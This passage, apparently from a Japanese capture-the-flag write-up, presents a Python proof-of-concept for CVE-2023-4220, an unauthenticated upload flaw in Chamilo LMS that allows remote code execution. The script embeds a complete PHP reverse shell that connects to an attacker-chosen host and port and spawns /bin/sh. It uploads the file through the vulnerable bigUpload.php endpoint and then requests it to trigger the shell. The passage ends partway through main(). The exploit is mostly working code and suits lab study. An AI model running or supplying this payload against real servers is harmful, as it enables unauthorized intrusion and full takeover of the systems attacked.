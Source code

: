 シェルを取得できた

## 自動でおこなう

このCVEを自動化するスクリプトを作成した

```python
import requests
import argparse

def create_php_file(ip, port):
    php_code = f"""<?php set_time_limit(0);$VERSION="1.0";$ip='{ip}';$port={port};$chunk_size=1400;$write_a=null;$error_a=null;$shell='uname -a; w; id; /bin/sh -i';$daemon=0;$debug=0;if(function_exists('pcntl_fork')){{$pid=pcntl_fork();if($pid==-1){{printit("ERROR: Can't fork");exit(1);}}if($pid){{exit(0);}}if(posix_setsid()==-1){{printit("Error: Can't setsid()");exit(1);}}$daemon=1;}}else{{printit("WARNING: Failed to daemonise. This is quite common and not fatal.");}}chdir("/");umask(0);$sock=fsockopen($ip,$port,$errno,$errstr,30);if(!$sock){{printit("$errstr ($errno)");exit(1);}}$descriptorspec=array(0=>array("pipe","r"),1=>array("pipe","w"),2=>array("pipe","w"));$process=proc_open($shell,$descriptorspec,$pipes);if(!is_resource($process)){{printit("ERROR: Can't spawn shell");exit(1);}}stream_set_blocking($pipes[0],0);stream_set_blocking($pipes[1],0);stream_set_blocking($pipes[2],0);stream_set_blocking($sock,0);printit("Successfully opened reverse shell to $ip:$port");while(1){{if(feof($sock)){{printit("ERROR: Shell connection terminated");break;}}if(feof($pipes[1])){{printit("ERROR: Shell process terminated");break;}}$read_a=array($sock,$pipes[1],$pipes[2]);$num_changed_sockets=stream_select($read_a,$write_a,$error_a,null);if(in_array($sock,$read_a)){{if($debug)printit("SOCK READ");$input=fread($sock,$chunk_size);if($debug)printit("SOCK: $input");fwrite($pipes[0],$input);}}if(in_array($pipes[1],$read_a)){{if($debug)printit("STDOUT READ");$input=fread($pipes[1],$chunk_size);if($debug)printit("STDOUT: $input");fwrite($sock,$input);}}if(in_array($pipes[2],$read_a)){{if($debug)printit("STDERR READ");$input=fread($pipes[2],$chunk_size);if($debug)printit("STDERR: $input");fwrite($sock,$input);}}}}fclose($sock);fclose($pipes[0]);fclose($pipes[1]);fclose($pipes[2]);proc_close($process);function printit($string){{if(!$daemon){{print "$string\\n";}}}}?>"""
    with open('reverse_shell.php', 'w') as file:
        file.write(php_code)
    print('[+] PHP file created')

def upload_file(url):
    upload_url = f"{url}/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported"
    files = {'bigUploadFile': open('reverse_shell.php', 'rb')}
    response = requests.post(upload_url, files=files)
    if response.status_code == 200:
        print('[+] Upload Success!')
    else:
        print('[!] Upload Failed!')

def send_request(url):
    request_url = f"{url}/main/inc/lib/javascript/bigupload/files/reverse_shell.php"
    print('[+] Send Request')
    req = requests.get(request_url)
    print(req.text)

def main():
    parser = argparse.ArgumentParser(
        prog='permx_exploit.py', 
        usage='python3 permx_exploit.py -u <target url> -l <lhost> -p <lport>',
        description='(CVE-2023-4220) Chamilo LMS Unauthenticated Big Upload File Remote Code Execution PoC', 
        epilog='end', 
        add_help=True,
    )
    parser.add_argument('-u', '--url', required=True, help='Target URL')
    parser.add_argument('-l', '--lhost', required=True, help='Local host IP')
    parser.add_argument('-p', '--lport', required=True, help='Local port')
    args = parser.parse_args()

```